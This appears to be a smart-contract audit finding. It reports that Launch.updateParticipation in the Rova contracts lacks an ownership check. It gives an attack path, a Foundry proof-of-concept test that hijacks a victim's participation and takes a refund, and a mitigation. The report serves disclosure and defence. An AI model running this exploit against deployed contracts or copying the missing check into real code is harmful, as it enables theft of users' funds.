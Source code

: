 Blurry Rose Alpaca

High

# Malicious participant can steal other participant funds via updateParticipation

### Summary

Missing ownership validation in `updateParticipation` will cause unauthorized participation manipulation for launch participants as malicious actors can take over any participation and steal refunds by providing a valid signature with matching userId and currency.

### Root Cause

https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L312-L398

In `Launch::updateParticipation` there is a missing ownership validation check between msg.sender and prevInfo.userAddress when accessing participation data, allowing any user to manipulate another user's participation.




### Internal Pre-conditions

1. Launch group must be in ACTIVE status
2. Launch group must not be set to finalizesAtParticipation
3. Target participation must not be finalized
4. Attacker needs valid signature from signer role
5. Attacker's request must have matching userId and currency as target participation

### External Pre-conditions

None

### Attack Path

1. Victim creates participation with ID "X" and deposits funds
2. Attacker creates their own participation with ID "Y"
3. Attacker obtains valid signature for updating their participation
4. Attacker calls updateParticipation with:
   - prevLaunchParticipationId = their own ID "Y"
   - newLaunchParticipationId = victim's ID "X"
   - Lower token amount than their original participation
5. Contract:
   - Sends refund to attacker for reduced amount
   - Updates victim's participation ownership to attacker
6. Result:
   - Attacker gets refund + control of victim's participation
   - Victim's funds remain locked in contract

### Impact

The victim suffers complete loss of their participation funds.
 The attacker gains:
 - Control of victim's participation (by becoming new userAddress)
 - Immediate refund of the difference between original and new participation amount
 - Ability to further manipulate or cancel the stolen participation


### PoC

put this test in the Launch.UpdateParticipation.t.sol
```solidity
 function test_RevertIf_UpdateParticipation_OverwriteExistingParticipation() public {
        // SETUP: First participation setup is already done in setUp()
        
        // STEP 1: Create victim's (user2) participation with 1000 tokens
        ParticipationRequest memory user2Request = _createParticipationRequest();
        user2Request.userAddress = user2;
        user2Request.userId = "user2Id"; 
        user2Request.launchParticipationId = "user2ParticipationId";
        bytes memory user2Signature = _signRequest(abi.encode(user2Request));
    
        // Log initial state
        console.log("=== Initial State ===");
        uint256 user1InitialBalance = currency.balanceOf(user1);
        uint256 user2InitialBalance = currency.balanceOf(user2);
        console.log("User1 (attacker) initial balance:", user1InitialBalance);
        console.log("User2 (victim) initial balance:", user2InitialBalance);
        assertEq(user2InitialBalance, 1000 * 10**18, "Victim should start with 1000 tokens");
    
        // STEP 2: User2 participates in the launch
        vm.startPrank(user2);
        currency.approve(
            address(launch),
            _getCurrencyAmount(
                user2Request.launchGroupId,
                user2Request.currency,
                user2Request.tokenAmount
            )
        );
        launch.participate(user2Request, user2Signature);
        vm.stopPrank();
    
        // Verify user2's participation was recorded
        console.log("=== After Victim Participation ===");
        ParticipationInfo memory originalUser2Info = launch.getParticipationInfo("user2ParticipationId");
        assertEq(originalUser2Info.userAddress, user2, "Participation should belong to victim");
        assertEq(originalUser2Info.tokenAmount, 1000 * 10**18, "Victim should have 1000 tokens participation");
        console.log("Victim participation amount:", originalUser2Info.tokenAmount);
        console.log("Victim remaining balance:", currency.balanceOf(user2));
        assertEq(currency.balanceOf(user2), 0, "Victim should have spent all tokens");
    
        // STEP 3: EXPLOIT - User1 attempts to take over User2's participation
        console.log("=== Executing Exploit ===");
        UpdateParticipationRequest memory maliciousRequest = _createUpdateParticipationRequest(500);
        maliciousRequest.newLaunchParticipationId = "user2ParticipationId"; // Target victim's participation
        bytes memory updateSignature = _signRequest(abi.encode(maliciousRequest));
        
        vm.startPrank(user1);
        uint256 updatedCurrencyAmount = _getCurrencyAmount(
            maliciousRequest.launchGroupId,
            maliciousRequest.currency,
            maliciousRequest.tokenAmount
        );
        currency.approve(address(launch), updatedCurrencyAmount);
    
        // VULNERABILITY: No ownership check in updateParticipation allows this to succeed
        launch.updateParticipation(maliciousRequest, updateSignature);
    
        // STEP 4: Verify exploit success
        console.log("=== Post-Exploit State ===");
        ParticipationInfo memory compromisedInfo = launch.getParticipationInfo("user2ParticipationId");
        
        // Verify participation ownership was stolen
        assertEq(compromisedInfo.userAddress, user1, "EXPLOIT: Attacker now owns victim's participation");
        assertEq(compromisedInfo.tokenAmount, 500 * 10**18, "EXPLOIT: Participation amount reduced to 500");
        
        // Verify attacker profited
        uint256 user1FinalBalance = currency.balanceOf(user1);
        uint256 stolenAmount = user1FinalBalance - user1InitialBalance;
        console.log("Attacker's profit:", stolenAmount);
        assertGt(stolenAmount, 0, "EXPLOIT: Attacker should have received refund from reducing participation");
        
        // Verify victim lost funds
        uint256 user2FinalBalance = currency.balanceOf(user2);
        console.log("Victim's final balance:", user2FinalBalance);
        assertEq(user2FinalBalance, 0, "EXPLOIT: Victim's funds were stolen");
    
        vm.stopPrank();
    }
```

### Mitigation

Add ownership validation at the start of updateParticipation:
```solidity
ParticipationInfo storage prevInfo = launchGroupParticipations[request.prevLaunchParticipationId];

// Add critical ownership check
if (msg.sender != prevInfo.userAddress) {
    revert UnauthorizedAccess(msg.sender, prevInfo.userAddress);
}
```